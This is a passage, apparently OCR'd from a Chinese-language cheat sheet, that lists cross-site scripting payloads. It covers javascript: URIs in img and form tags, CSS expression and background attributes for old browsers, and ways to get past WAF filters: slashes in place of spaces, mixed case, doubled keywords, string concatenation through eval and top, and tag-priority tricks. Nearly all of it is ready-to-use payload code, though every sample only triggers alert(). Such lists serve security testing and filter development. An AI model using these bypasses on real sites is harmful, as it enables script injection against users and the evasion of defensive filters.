```

    <img src=javascript:alert('xss')>//IE7以下

`<form>`标签

    <form action="Javascript:alert(1)"><input type=submit>

### 其它

expression 属性

    <img style="xss:expression(alert('xss''))"> // IE7以下
    <div style="color:rgb(''�x:expression(alert(1))"></div> //IE7以下
    <style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background 属性

    <table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

# 有过滤的情况下

## 过滤空格

用`/`代替空格

<img/src\="x"/onerror\=alert("xss");\>

## 过滤关键字

### 大小写绕过

<ImG sRc\=x onerRor\=alert("xss");\>

### 双写关键字

有些 waf 可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过

<imimgg srsrcc\=x onerror\=alert("xss");\>

### 字符拼接

利用 eval

<img src\="x" onerror\="a=\`aler\`;b=\`t\`;c='(\`xss\`);';eval(a+b+c)"\>

利用 top

    <script>top["al"+"ert"](`xss`);</script>

### 其它字符混淆

有的 waf 可能是用正则表达式去检测是否有 xss 攻击，如果我们能 fuzz 出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了  
下面举几个简单的例子

    可利用注释、标签的优先级等
    1.<<script>alert("xss");//<</script>
    2.<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
    3.<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>

### 编码绕过

Unicode 编码绕过
```